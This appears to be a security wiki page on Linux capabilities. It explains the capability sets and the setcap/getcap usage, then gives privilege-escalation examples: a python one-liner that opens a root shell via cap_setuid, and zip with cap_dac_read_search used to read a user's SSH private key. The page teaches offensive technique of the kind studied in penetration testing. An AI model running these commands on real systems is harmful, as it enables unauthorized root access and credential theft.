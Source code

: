 # Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

**Basic processes :** Have no capabilities \(file access is controlled by traditional file privileges\).

**\(Binary\) files :** Can have capabilities \(filesystem-dependent\).

Capabilities are in separated in 5 sets :

| Set | Description |
| :--- | :--- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive \(in its inheritable/permitted sets\) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
  * drop any capability from any set
  * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages \(see `man capabilities`\).

**Non-exhaustive capability list :**

| Capability | Description |
| :--- | :--- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing  |
| `CAP_AUDIT_WRITE`  | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets  |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports  |

## Practice

**Setting a file's capabilities :**

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

**Exploiting capabilities :**

* Empty capabilities

  If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

{% hint style="info" %}
To create a file with empty \(=all\) capabilities just`sudo setcap \=ep /path/to/file` 
{% endhint %}

**Other classic examples :**

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

**End notes :**

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

{% embed url="https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work" caption="" %}

{% embed url="https://blog.ploetzli.ch/2014/understanding-linux-capabilities/" caption="" %}

{% embed url="https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/" caption="" %}

